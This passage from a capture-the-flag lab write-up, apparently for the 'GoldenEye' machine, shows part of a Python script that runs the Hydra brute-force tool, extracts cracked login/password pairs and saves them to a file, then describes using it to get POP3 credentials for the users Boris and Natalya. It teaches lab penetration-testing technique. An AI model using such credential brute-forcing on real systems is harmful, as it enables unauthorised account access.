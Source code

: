 ```
    credentials = [line for line in output.splitlines() if "login:" in line and "password:" in 
line] 
     
    if credentials: 
        print("\nCredentials found:") 
        for cred in credentials: 
            print(cred) 
         
        # Save credentials to a file with a randomized name 
        random_filename = f"credentials_{uuid.uuid4().hex}.txt" 
        with open(random_filename, "w") as file: 
            file.write("\n".join(credentials)) 
        print(f"\nCredentials saved to: {random_filename}") 
    else: 
        print("\nNo credentials found.") 
except subprocess.CalledProcessError as e: 
    print(f"An error occurred while executing Hydra: {e.stderr}") 
except FileNotFoundError: 
    print("Hydra is not installed or not found in your system's PATH.") 

```

After running the brute.py code on both Boris and Natalya(who was mentioned in the 
terminal.js source code we found) we found the following login credentials; 
 
We then got the following on Boris and so we ran the code again on Natalya and also 
found some login credentials which we would then use to access their pop3 ***“terminals”***

![credentials-from-hydra](/public/post-images/Golden-Eye/credz.png)
